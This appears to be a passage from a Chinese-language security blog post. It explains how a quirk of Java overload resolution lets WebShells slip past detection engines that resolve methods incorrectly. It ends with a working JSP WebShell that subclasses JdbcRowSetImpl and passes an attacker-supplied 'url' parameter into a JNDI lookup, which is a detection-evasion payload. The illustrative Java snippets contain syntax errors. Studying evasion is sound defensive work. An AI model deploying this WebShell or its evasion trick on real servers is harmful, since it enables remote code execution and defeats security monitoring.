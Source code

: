   那么这里显然是会调用B类的print方法。但如果B类是如下写法呢？

  ```java
  Class A {
  	public Object print(String str){
  		System.out.println("A"+str);
  	}
  }
  
  Class B extend A {
  	public Object print(Object str){
  		System.out.println("B"+str);
  	}
  }
  new B().print("test");
  ```

  或者如下写法：

  ```java
  Class A {
  	public Object print(Object str){
  		System.out.println("A"+str);
  	}
  }
  
  Class B extend A {
  	public Object print(String str){
  		System.out.println("B"+str);
  	}
  }
  new B().print("test");
  ```

  这是一个乍看起来重载了，但是又没完全重载的例子。事实上，程序最后会调用的均是入参为`String`的print方法，在第一个例子中，会调用A.print()，在第二个例子中会调用B.print()。

  \
  重载对方法的要求是入参类型**完全相同**。在上述两个例子中，子类和父类的参数都不同，也就代表A.print和B.print是两个不同的方法。而java的方法调用过程中，并不是遵循“先在子类的方法中寻找符合条件的方法，找不到再去父类中寻找这种方法”，而是直接在目标类及其所有父类方法中去找和调用方法最匹配的那个方法，进行加载和调度。然而对于WebShell检测引擎来说，可能为了性能考虑，或者是对Java的方法调用过程不够了解，会在模拟运行时，遵循上面说的那种寻找方法的方法，先在子类方法中寻找，找不到再去父类方法中寻找。导致了引擎获取到的执行方法和Java程序实际的执行方法出现不同，从而触发了绕过。举一个WebShell的例子：

  ```java
  <%@ page import="com.sun.rowset.JdbcRowSetImpl" %>
  <%@ page import="java.sql.SQLException" %>
  <%@ page contentType="text/html; charset=UTF-8" language="java" %>
  <%
      class a extends JdbcRowSetImpl{
          public a() {
              super();
          }
          public void setDataSourceName(Object var1) throws SQLException{
          };
          public void setAutoCommit(Object var1) throws SQLException{
          };
      }
      a A =  new a();
      A.setDataSourceName(request.getParameter("url"));
      A.setAutoCommit(true);
  %>
  ```
